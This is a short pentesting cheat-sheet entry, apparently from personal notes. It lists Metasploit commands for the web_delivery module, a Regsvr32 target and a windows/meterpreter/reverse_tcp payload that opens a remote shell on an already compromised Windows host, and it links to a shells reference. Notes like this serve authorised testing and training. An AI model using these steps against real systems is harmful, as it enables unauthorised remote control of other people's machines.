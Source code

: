 # Metasploit
#### **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32